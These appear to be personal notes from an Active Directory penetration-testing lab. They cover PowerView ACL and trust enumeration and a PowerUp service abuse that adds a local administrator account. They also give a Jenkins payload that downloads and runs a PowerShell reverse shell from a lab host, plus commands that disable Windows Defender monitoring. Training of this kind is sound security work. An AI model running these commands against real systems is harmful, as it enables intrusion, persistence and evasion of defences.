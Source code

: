 # Learning Objective 3

#### Enumerate following for the dollarcorp domain:
– ACL for the Users group
	- `Get-ObjectAcl -SamAccountName "Users" –ResolveGUIDs`
– ACL for the Domain Admins group
	- `Get-ObjectAcl -SamAccountName "Domain Admins" –ResolveGUIDs`
– All modify rights/permissions for the studentx
	- `Invoke-ACLScanner -ResolveGUIDs | ?{$_.IdentityReference -match "student"}`

# Learning Objective 4

- Enumerate all domains in the moneycorp.local forest
- Map the trusts of the dollarcorp.moneycorp.local domain
- Map External trusts in moneycorp.local forest
- Identify external trusts of dollarcorp domain. Can you enumerate trusts for a trusting forest?
	- `Get-NetForestDomain -Forest eurocorp.local -Verbose | Get-NetDomainTrust`

# Learning Objective 5

• Exploit a service on dcorp-studentx and elevate privileges to local administrator.
```powershell
PS C:\AD\Tools> Import-Module PowerUp.ps1
PS C:\AD\Tools> Invoke-ServiceAbuse -Name 'AbyssWebServer'

ServiceAbused  Command
-------------  -------
AbyssWebServer net user john Password123! /add && net localgroup Administrators john /add
```

• Identify a machine in the domain where studentx has local administrative access
	- After Escalating Privileges -> `Find-LocalAdminAccess` -> `dcorp-adminsrv.dollarcorp.moneycorp.local`

• Using privileges of a user on Jenkins on 172.16.3.11:8080, get admin privileges on 172.16.3.11 - the dcorp-ci server.
	- Payload for Jenkins that worked -> `powershell.exe -c "iex (New-Object Net.WebClient).DownloadString('http://172.16.99.27/Invoke-PowerShellTcp.ps1');Power -Reverse -IPAddress 172.16.99.27 -Port 1234"` (SET UP A LISTENER WITH NETCAT)
	- 

### Disable Defenses
```powershell
# Add exclusion to folder
Remove-MpPreference -ExclusionPath "C:\Temp"

# Disable Defender
Set-MpPreference -DisableRealtimeMonitoring $true
```
